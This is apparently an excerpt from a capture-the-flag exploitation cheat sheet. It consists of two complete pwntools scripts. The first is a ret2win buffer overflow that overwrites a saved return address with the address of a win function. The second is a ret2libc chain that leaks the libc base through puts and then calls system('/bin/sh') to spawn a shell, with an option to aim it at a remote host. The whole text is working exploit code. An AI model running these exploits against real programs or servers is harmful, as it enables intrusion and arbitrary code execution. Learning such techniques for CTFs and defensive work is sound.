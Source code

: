**Basic Buffer Overflow (ret2win)**:
```python
from pwn import *

# Start process
elf = ELF('./vuln')
p = process('./vuln')
# p = remote('target.com', 1337)  # For remote

# Find win function address
win_addr = elf.symbols['win']

# Find offset (buffer size)
# Method 1: Send cyclic pattern
payload = cyclic(200)
p.sendline(payload)
# Program crashes, check crash offset
# offset = cyclic_find(0x6161616c)  # Use crashed address

# Method 2: Trial and error
offset = 64  # Common sizes: 32, 64, 128

# Craft exploit
payload = b'A' * offset
payload += p64(win_addr)  # Overwrite return address

# Send exploit
p.sendline(payload)

# Get flag
p.interactive()
```

**ret2libc (Bypass NX)**:
```python
from pwn import *

elf = ELF('./vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
rop = ROP(elf)

# Leak libc address
payload = b'A' * offset
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(elf.symbols['main'])  # Return to main

p.sendline(payload)
leak = u64(p.recvline().strip().ljust(8, b'\x00'))
libc.address = leak - libc.symbols['puts']

# Call system('/bin/sh')
payload = b'A' * offset
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(next(libc.search(b'/bin/sh')))
payload += p64(libc.symbols['system'])

p.sendline(payload)
p.interactive()
```

